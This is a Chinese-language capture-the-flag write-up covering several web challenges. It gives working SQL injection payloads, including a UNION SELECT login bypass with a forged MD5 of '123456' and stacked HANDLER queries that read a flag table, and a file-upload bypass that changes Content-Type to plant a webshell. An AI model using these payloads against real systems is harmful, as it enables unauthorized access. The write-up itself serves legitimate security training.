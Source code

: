 Sqlmap跑出来密码明显是加密的md5

![](https://img-blog.csdnimg.cn/20210422175528404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

说明用户输入的密码的md5与库中的md5对比，相同则认证

本题考点：`联合查询所查询的数据不存在时，联合查询会构造一个虚拟的数据`

联合注入：
>'union select 'admin',2,3#   //返回wrong user

>'union select 1,'admin',3#  //返回wrong pass

说明了admin在第二字段

![](https://img-blog.csdnimg.cn/20210422175812503.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
**`重点`**：联合查询所查询的数据不存在时，联合查询会构造一个虚拟的数据

可以看到当联合查询一个不存在的值时，会出现一个构造的虚拟数据

![](https://img-blog.csdnimg.cn/20210422175902546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

那么我们这样构造：
```
name='union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'#&pw=123456
```
此时我们传进去的正是123456的md5值，因此比对成功（因为e10adc39...不存在，如上图）

---
# [网鼎杯 2020 青龙组]AreUSerialz
- 考点：反序列化不可见字符处理

写过

---
# [MRCTF2020]你传你🐎呢
- .htaccess 绕过

正常过滤php等一系列，想着.user.ini但是没有index.php

又想着试试.htaccess 也被ban

`修改Content-Type为image/jpeg`，即可成功上传

再上传图片马，蚁剑

![](https://img-blog.csdnimg.cn/20210422180333211.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# [MRCTF2020]Ez_bypass
?id[]=1&gg[]=2
Post：passwd=1234567abc

---
# [GYCTF2020]Blacklist
就是随便注那题

payload:
```
1';show columns from `FlagHere`#
1';handler `FlagHere` open;handler `FlagHere` read first;#
```
